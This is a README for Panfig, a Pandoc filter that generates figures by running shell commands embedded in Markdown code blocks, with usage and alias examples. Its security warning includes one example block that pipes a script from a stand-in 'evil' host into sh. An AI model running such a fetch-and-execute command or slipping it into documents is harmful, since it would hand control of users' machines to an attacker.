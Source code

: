 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates this HTML:

> Here is a very simple FSM: the "on-off automaton."
>
> ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
>   digraph G {
>     on [style=filled];
>     on -> off;
>     off -> on;
>   }
> ~~~~~~~~



Security: for God's sake, be careful.
-------------------------------------

I am putting this here because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpdf -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
